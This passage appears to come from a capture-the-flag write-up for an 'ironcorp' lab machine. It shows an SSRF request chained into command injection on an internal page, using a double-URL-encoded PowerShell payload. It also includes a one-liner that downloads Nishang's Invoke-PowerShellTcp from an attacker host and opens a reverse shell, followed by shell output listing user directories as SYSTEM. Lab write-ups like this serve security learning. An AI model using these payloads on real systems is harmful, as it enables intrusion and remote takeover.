 - nt authority\system</p>

<img width="1131" height="254" alt="image" src="https://github.com/user-attachments/assets/a3618d73-e4f7-4028-95a7-cd92d6c93dcd" />

<br>
<br>

<h3 align="center">Invoke-PowerShellTcp</h3>
<p>

- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1</p>

<br>


```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://xx.xxx.xxx.xxx:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress xx.xxx.xxx.xxx -Port 9001
```

```bash
%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38...30%25%33%31
```


```bash
http://admin.ironcorp.me:11025/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2Fname.php%3Fname%3Dhello%7C%2525%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38...30%25%33%31#
```

<img width="1118" height="462" alt="image" src="https://github.com/user-attachments/assets/0d593bd2-aee5-43b1-a898-f9375e7ba2d6" />

<br>
<br>

```bash
PS E:\xampp> cd C:\Users
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----        4/11/2020   4:41 AM                Admin                         
d-----        4/11/2020  11:07 AM                Administrator                 
d-----        4/11/2020  11:55 AM                Equinox                       
d-r---        4/11/2020  10:34 AM                Public                        
d-----        4/11/2020  11:56 AM                Sunlight                      
d-----        4/11/2020  11:53 AM                SuperAdmin                    
d-----        4/11/2020   3:00 AM                TEMP                          


PS C:\Users> cd Administrator
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-r---        4/12/2020   1:27 AM                Contacts                      
d-r---        4/12/2020   1:27 AM                Desktop                       
d-r---        4/12/2020   1:27 AM                Documents                     
d-r---        4/12/2020   1:27 AM                Downloads                     
d-r---        4/12/2020   1:27 AM                Favorites                     
d-r---        4/12/2020   1:27 AM                Links                         
d-r---        4/12/2020   1:27 AM                Music                         
```